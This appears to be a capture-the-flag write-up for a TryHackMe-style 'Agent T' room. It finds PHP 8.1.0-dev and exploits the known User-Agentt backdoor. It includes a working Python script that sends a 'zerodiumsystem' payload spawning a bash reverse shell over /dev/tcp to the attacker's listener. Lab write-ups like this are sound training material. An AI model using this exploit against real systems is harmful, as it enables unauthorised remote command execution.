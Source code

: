 ```yaml
---
title: Agent T
tags:
- writeups
---
```



![[write-ups/images/Pasted image 20220807180318.png]]

So let's check the web server:

At this point I let `gobuster` run in the background, while I fired-up burp & started browsing around the website:
![[write-ups/images/Pasted image 20220807180601.png]]

Nothing too interesting. Besides this conversation
![[write-ups/images/Pasted image 20220807182331.png]]

After, poaching it for a little & hit some dead-ends, I went back to `nmap` & started [searching](https://letmegooglethat.com/?q=PHP+8.1.0-dev) for the php versions listed: `PHP cli server 5.5 or later (PHP 8.1.0-dev)`. I stumbled upon a [User-Agent RCE backdoor](https://github.com/flast101/php-8.1.0-dev-backdoor-rce). So we can just execute commands on the web server by suplying cmds through the `User-Agentt` header ! 
*([here](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a) is the commit that implements the backdoor, which was quickly [reverted](https://github.com/php/php-src/commit/8d743d5281c29e9750e183804b7ba02e1ff82f0b). Following to change the whole [commit workflow](https://news-web.php.net/php.internals/113838) of php's development)*

- craft a little python script to spawn a reverse shell for us
	```python
	import requests
	
	# Change ME
	target = "10.10.98.243"
	lhost  = "10.18.12.227"
	lport  = 9999
	
	
	# Craft the payload & send it
	URL = f"http://{target}/"
	payload = f'bash -c \"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1\"'
	
	s = requests.Session()
	headers = {
	    "User-Agentt": f"zerodiumsystem('{payload}');"
	}
	print(headers)
	
	inject = s.get(URL, headers=headers, allow_redirects = False)
	```
- setup a listener *(I used [pwncat-cs](https://github.com/calebstewart/pwncat))*
	- ![[write-ups/images/Pasted image 20220809205127.png]]


## Refs
- https://flast101.github.io/php-8.1.0-dev-backdoor-rce/

## See Also
- [[write-ups/THM]]